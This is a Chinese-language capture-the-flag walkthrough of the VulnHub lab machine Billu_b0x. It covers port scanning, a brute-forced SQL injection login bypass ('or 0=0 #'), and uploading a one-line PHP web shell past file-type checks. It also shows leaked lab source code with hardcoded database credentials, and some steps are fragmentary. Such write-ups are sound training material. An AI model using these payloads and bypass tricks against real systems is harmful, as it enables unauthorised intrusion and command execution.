

> 靶机环境介绍
+ [Billu_b0x](https://download.vulnhub.com/billu/Billu_b0x.zip) 
+ 难度等级 <font color=yellow> 中 (两种攻击方式)</font>

目标:
+ 取得 root 权限

**所用技术栈**
+ 主机发现
+ 端口扫描
+ WEB 信息收集
+ SQL 注入 (SQLMAP 跑不出来)
+ 文件包含漏洞
+ 文件上传漏洞
+ 源码审计
+ 内核漏洞提权

<div style='border-radius:15px;display:block;background-color:pink;border:2px solid #aaa;margin:15px;padding:10px;'>导入虚拟机时，一定要将下面的 <code>Mac Address Policy</code> 改成包含所有网卡的 MAC 地址，不然可能会获取不到 IP 地址</div>


## 主机发现与端口扫描

主机发现
```bash
sudo arp-scan -l
```


端口扫描


端口服务版本，服务内容扫描


既然开放了 80 端口，所以我们先访问一下其网页。

发现该页面上有 `Show me your SQLI skills`,说明这个表单一定存在 SQL 注入漏洞。


## SQL 注入

既然有 SQL 注入漏洞，那么我们就尝试一下使用万能密码，来进行登入。

发现登入失败


在进行多次尝试之后，发现都没能触发 SQL 注入漏洞的现象。

所以最后我们使用以下两个字典来尝试进行爆破

<font color='red' face=Monaco size=3>进行爆破需要使用 Burp Suite 的 intruder 功能模块,而这个模块需要专业版才能使用</font>

[Kali 里安装 Burp Suite 专业版教程](https://www.zhouhaobusy.com/articles/106)

我们先抓取登入网页的请求包,然后将其发送到 burp suite 的 intrude 模块内


然后添加两个字典文件
+ `/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt`
    + Runtime file 类型

+ 使用 Burp Suite 内置字典 `Fuzzing-SQL injection`
    + Simple List 类型
    


然后我们运行，并开始进行爆破,对 Length 进行排序。


我们还知道如果登入失败，会给我们返回一个弹窗 `Try again` 所以我们可以使用 burpsuite 的过滤功能将不含 Try again 的请求数据给过滤出来。


发现有以下 payload 不含 Try again 这个关键字。
所以我们选择一个 payload 进行尝试登入 ( 用户名为 `or 0=0 #` 密码为 `\` )


发现成功登入进入网站内部。


发随便点击这些按钮,发现里面存在一个查看用户的功能和,添加用户的功能。


当我们点击添加用户时，发现里面存在 <font color='red' face=Monaco size=3>文件上传</font> 的功能。


所以我们尝试一下看看能不能将一句话木马给上传到服务器上。

我们使用下面的一句话木马 `shell.php`，对其进行上传，发现给我们返回 `only png,jpg and gif file are allowed` 说明该网站对我们上传的内容还是有限制的。

```php
<?php system($_GET["cmd"]);?>
```


所以我们使用 burp suite 对其进行多次长传，看看能不能绕过服务器端的检查。

我们先将文件的后缀改成 `png` 等图片文件的后缀，尝试一下看看能否上传成功。


很遗憾，发现上传失败.


我们知道如果文件的后缀名改了，那么想让该文件执行，那将变得非常困难。

然后我们尝试修改 `Content-Type` 里的内容，将其改成图片类型,`Content-Type:image/png`,并添加上图片文件的头部，`GIF89a;`,但不修改其文件的后缀名。


发现还是上传失败。

然后我们再尝试既


发现该文件传成功,然后我们在点击用户查看，发现成功多出来一条记录。





如果存在远程文件包含漏洞的话，就能成功将我们的一句话木马给加载进来


我们这个方式是通过加载图片内的 php 代码然后传参数(命令) 去执行操作系统指令。

有可能这样一种调用方式在服务器端是不支持的。

所以我们就尝试一下，能不能使用一种 php 代码让服务器类似nc一样反弹shell给我们的攻击机，从而获取一个shell.


很明显这是一个任意文件下载漏洞。

任意文件下载就是将所有的指定文件显示出来，包括 php ,而文件包含漏洞并不会直接显示 php 的内容。
```php
<?php
session_start();

include('c.php');
include('head.php');
if(@$_SESSION['logged']!=true)
{
	$_SESSION['logged']='';
	
}

if($_SESSION['logged']==true &&  $_SESSION['admin']!='')
{
	
	echo "you are logged in :)";
	header('Location: panel.php', true, 302);
}
else
{
echo '<div align=center style="margin:30px 0px 0px 0px;">
<font size=8 face="comic sans ms">--==[[ billu b0x ]]==--</font> 
<br><br>
Show me your SQLI skills <br>
<form method=post>
Username :- <Input type=text name=un> &nbsp Password:- <input type=password name=ps> <br><br>
<input type=submit name=login value="let\'s login">';
}
if(isset($_POST['login']))
{
	$uname=str_replace('\'','',urldecode($_POST['un']));
	$pass=str_replace('\'','',urldecode($_POST['ps']));
	$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
	$result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {

$row = mysqli_fetch_assoc($result);
	   echo "You are allowed<br>";
	   $_SESSION['logged']=true;
	   $_SESSION['admin']=$row['username'];
	   
	 header('Location: panel.php', true, 302);
   
}
else
{
	echo "<script>alert('Try again');</script>";
}
	
}
echo "<font size=5 face=\"comic sans ms\" style=\"left: 0;bottom: 0; position: absolute;margin: 0px 0px 5px;\">B0X Powered By <font color=#ff9933>Pirates</font> ";

?>

```


```php
<?php
#header( 'Z-Powered-By:its chutiyapa xD' );
header('X-Frame-Options: SAMEORIGIN');
header( 'Server:testing only' );
header( 'X-Powered-By:testing only' );

ini_set( 'session.cookie_httponly', 1 );

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }

?>
```

```bash
dirsearch -u http://10.0.2.18/phpmy
```


如果这个时候，在这个网站上还能找到一个文件包含漏洞的话，就有可能利用我们所上传的一句话木马。


